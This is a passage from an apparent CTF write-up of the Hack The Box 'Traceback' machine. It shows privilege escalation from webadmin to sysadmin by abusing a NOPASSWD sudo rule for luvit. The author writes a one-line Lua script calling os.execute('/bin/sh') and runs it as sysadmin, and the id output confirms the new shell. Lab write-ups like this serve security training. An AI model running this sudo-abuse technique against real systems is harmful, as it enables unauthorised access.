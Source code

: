 Hmm, I wonder if this is a clue... What do you think ? ;-))
OK, what can we sudo as "webadmin" ?
~~~
webadmin@traceback:/home/webadmin$ sudo -l
Matching Defaults entries for webadmin on traceback:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User webadmin may run the following commands on traceback:
    (sysadmin) NOPASSWD: /home/sysadmin/luvit
~~~

Indeed we can execute the command **`/home/sysadmin/luvit privesc.lua`** as _**sysadmin**_ and this is what was done previously as mentioned in history file.

The file _**privesc.lua**_ has been removed but we can write anything we want in our home directory. We just want to know what is the lua command to execute bash and we will get a _**sysadmin**_ user shell.


[Lua](http://www.lua.org/about.html) is a scripting language, and _**sysadmin**_ installed [luvit](https://luvit.io/) which implements some APIs in Lua, and allows to run ***.lua*** script files.
Going through [lua documentation](http://www.lua.org/manual/5.3/), we can easily find the link to the chapter **[Operating System Facilities]((http://www.lua.org/manual/5.3/manual.html#6.9))**. There, we find the command **`os.execute`**:

![osexecute.png](images/osexecute.png)


### 3.2- Getting user.txt

We found an easy way to escalete to _**sysadmin**_ user. Let's do this:
~~~
webadmin@traceback:/home/webadmin$ echo 'os.execute("/bin/sh")' > privesc.lua
webadmin@traceback:/home/webadmin$ sudo -u sysadmin /home/sysadmin/luvit privesc.lua
$ id
uid=1001(sysadmin) gid=1001(sysadmin) groups=1001(sysadmin)
~~~
